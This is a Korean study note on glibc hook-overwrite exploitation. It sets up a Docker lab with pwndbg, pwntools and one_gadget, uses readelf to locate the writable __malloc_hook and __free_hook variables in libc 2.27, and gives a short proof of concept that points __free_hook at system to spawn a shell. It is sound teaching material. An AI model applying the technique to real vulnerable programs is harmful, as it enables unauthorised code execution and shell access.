### “hook 공부” 관점에서 의미

- hook(예: malloc hook, free hook, __printf_function_table 등)을 실험하려면 **gdb + pwndbg**가 필수 → 힙/라이브러리 내부 구조를 분석할 수 있음.
- **pwntools**는 익스플로잇 자동화하면서 hook을 덮어쓰기 하는 payload를 쉽게 짤 수 있음.
- **one_gadget**은 hook overwrite 후 점프할 gadget 주소를 찾는 데 활용 가능.

### 실습 환경 Dockerfile 구축

```
FROM ubuntu:18.04

# PATH에 python3.6 관련 패키지 경로를 추가 -> pip 패키지 실행 파일 인식 가능하게 함
# LC_CTYPE=C.UTF-8 -> 로케일 문제(예: gdb 출력 깨짐) 방지
ENV PATH="${PATH}:/usr/local/lib/python3.6/dist-packages/bin"
ENV LC_CTYPE=C.UTF-8

# ruby : one_gadget 설치용
# sudo : 권한 상승
# tmux : 세션 분할 / 멀티 작업
RUN apt update
RUN apt install -y \
    gcc \
    git \
    python3 \
    python3-pip \
    ruby \
    sudo \
    tmux \
    vim \
    wget

# install pwndbg
# 특정 태그(2023.03.19)로 고정해서 버전 호환성 유지
WORKDIR /root
RUN git clone https://github.com/pwndbg/pwndbg
WORKDIR /root/pwndbg
RUN git checkout 2023.03.19
RUN ./setup.sh

# install pwntools
# 최신 pip으로 업그래이드
RUN pip3 install --upgrade pip
RUN pip3 install pwntools

# install one_gadget command
# one_gadget: libc에서 execve("/bin/sh", ...) 가능한 gadget 찾는 툴 -> ret2libc 익스 시 매우 유용
RUN gem install elftools -v 1.1.3
RUN gem install one_gadget -v 1.9.0

WORKDIR /root

```

$ IMAGE_NAME=ubuntu1804 CONTAINER_NAME=my_container; \
docker build . -t $IMAGE_NAME; \
docker run -d -t --privileged --name=$CONTAINER_NAME $IMAGE_NAME; \
docker exec -it -u root $CONTAINER_NAME bash

1. 환경변수 설정
    IMAGE_NAME -> 도커 이미지 이름 (ubuntu1804)
    CONTAINER_NAME -> 컨테이너 이름 my_container
2. 도커 이미지 빌드
    현재 디렉토리(.)에 있는 Dockerfile 을 기반으로 이미지를 빌드
    빌드된 이미지에 태그(-t)로 ubuntu1804 이름을 붙임.
3. 컨테이너 실행
    -d -> 백그라운드(detached) 모드 실행
    -t -> TTY 할당
    --privileged -> 컨테이너에 추가 권한 부여 (커널 기능, 장치 접근 가능)
    --name=$CONTAINER_NAME → 컨테이너 이름 지정 (my_container)
    $IMAGE_NAME → 앞에서 빌드한 이미지(ubuntu1804)를 기반으로 실행
4. 컨테이너 내부 접속
    docker exec → 실행 중인 컨테이너 안에서 명령어 실행
    it → 대화형(interactive) 모드 + 터미널 할당
    -u root → root 권한으로 실행
    $CONTAINER_NAME → 접속할 컨테이너(my_container)
    bash → 컨테이너 안에서 bash 실행

### 메모리 함수 훅

#### malloc, free, realloc hook

C언어에서 메모리의 동적할당과 해제를 담당하는 함수로 malloc, free, realloc 가 있다.
```
$ readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep -E "__libc_malloc|__libc_free|__libc_realloc"
   463: 00000000000970e0   923 FUNC    GLOBAL DEFAULT   13 __libc_malloc@@GLIBC_2.2.5
   710: 000000000009d100    33 FUNC    GLOBAL DEFAULT   13 __libc_reallocarray@@GLIBC_PRIVATE
  1619: 0000000000098ca0  1114 FUNC    GLOBAL DEFAULT   13 __libc_realloc@@GLIBC_2.2.5
  1889: 00000000000979c0  3633 FUNC    GLOBAL DEFAULT   13 __libc_free@@GLIBC_2.2.5
  1994: 000000000019a9d0   161 FUNC    GLOBAL DEFAULT   14 __libc_freeres@@GLIBC_2.2.5
```
: readelf -s -> ELF 파일의 심볼(symbol) 테이블 출력

libc에는 이 함수들의 디버깅 편의를 위해 훅 변수가 정의 되어 있다.
예를 들어, malloc 함수는 \_\_malloc_hook 변수의 값이 NULL이 아닌지 검사하고, 아니라면 malloc을 수행하기 전에 \_\_malloc_hook이 가리키는 함수를 먼저 실행한다.
이때 malloc의 인자는 훅 함수에 전달된다.
같은 방식으로 free, realloc 도 각각 \_\_free_hook, \_\_realloc_hook 이라는 훅 변수를 사용한다.

```
// __malloc_hook
void *__libc_malloc (size_t bytes)
{
  mstate ar_ptr;
  void *victim;
  void *(*hook) (size_t, const void *)
    = atomic_forced_read (__malloc_hook); // malloc hook read
  if (__builtin_expect (hook != NULL, 0))
    return (*hook)(bytes, RETURN_ADDRESS (0)); // call hook
#if USE_TCACHE
  /* int_free also calls request2size, be careful to not pad twice.  */
  size_t tbytes;
  checked_request2size (bytes, tbytes);
  size_t tc_idx = csize2tidx (tbytes);
  // ...
}
```

#### 훅의 위치와 권한
```
$ readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep -E "__malloc_hook|__free_hook|__realloc_hook"
   221: 00000000003ed8e8     8 OBJECT  WEAK   DEFAULT   35 __free_hook@@GLIBC_2.2.5
  1132: 00000000003ebc30     8 OBJECT  WEAK   DEFAULT   34 __malloc_hook@@GLIBC_2.2.5
  1544: 00000000003ebc28     8 OBJECT  WEAK   DEFAULT   34 __realloc_hook@@GLIBC_2.2.5
```


이 변수들의 오프셋은 각각 0x3ed8e8, 0x3ebc30, 0x3ebc28 인데, 섹션 헤더 정보를 참조하면 libc.so의 bss 및 data 섹션에 포함됨을 알 수 있다.
bss 및 data 섹션은 쓰기가 가능하므로 이 변수들의 값은 조작될 수 있다.

```
$ readelf -S /lib/x86_64-linux-gnu/libc-2.27.so | grep -EA 1 "\.bss|\.data"
<-- skipped -->
  [34] .data             PROGBITS         00000000003eb1a0  001eb1a0
       00000000000016c0  0000000000000000  WA       0     0     32
  [35] .bss              NOBITS           00000000003ec860  001ec860
       0000000000004280  0000000000000000  WA       0     0     32
```
readelf -S -> ELF 파일의 섹션 헤더 테이블 표시
grep -EA 1 -> 특정 패턴이 나오면 그 줄과 그 다음 줄(-A 1)까지 출력
0x3e84e0 -> 가상 주소(VMA, 메모리에 적재될 주소 오프셋)
WA -> Writable(초기화 이후 write 가능), Allocated(실행 시 메모리에 적재됨)

#### Hook Overwrite

malloc, free, realloc 에는 각각에 대응되는 훅 변수가 존재하며, 이들은 libc의 bss 섹션에 위치하여 실행 중에 덮어쓰는 것이 가능하다. 또한 훅을 실행할 때 기존 함수에 전달한 인자를 같이 전달해 주기 때문에 \_\_malloc_hook 을 system 함수의 주소로 덮고, malloc("/bin/sh")을 호출하여 셸을 획득하는 공격이 가능하다.

\_\_free_hook 을 system 함수로 덮고, free("/bin/sh") 를 호출하자 셸이 획득되는 것을 확인할 수 있다.
``` c
// Name: fho-poc.c
// Compile: gcc -o fho-poc fho-poc.c

#include <malloc.h>
#include <stdlib.h>
#include <string.h>

const char *buf="/bin/sh";

int main() {
  printf("\"__free_hook\" now points at \"system\"\n");
  __free_hook = (void *)system;
  printf("call free(\"/bin/sh\")\n");
  free(buf);
}

```
Docker에서 테스트하면 셸을 얻을 수 있다.


### Hooking
어떤 함수, 프로그램, 라이브러리를 실행하려 할 때 이를 가로채서 다른 코드가 실행되게 하는 기법. 디버깅, 모니터링, 트레이싱에 사용될 수 있으며, 공격자에 의해 키로깅이나 루트킷 제작에 사용될 수 있음.

### Hook Overwrite
바이너리에 존재하는 훅을 덮어써서 특정 함수를 호출할 때, 악의적인 코드가 실행되게 하는 공격 기법. 메모리 관리와 관련된 malloc, free, realloc 등의 함수가 라이브러리에 쓰기 가능한 훅 포인터를 가지고 있어서 공격에 사용될 수 있음. Full RELRO를 우회하는 데 사용될 수 있음.

### 원 가젯(one_gadget)
실행하면 셸이 획득되는 코드 뭉치. david942j가 만들어놓은 툴을 사용하면 libc의 버전마다 유효한 원 가젯을 쉡게 찾을 수 있음.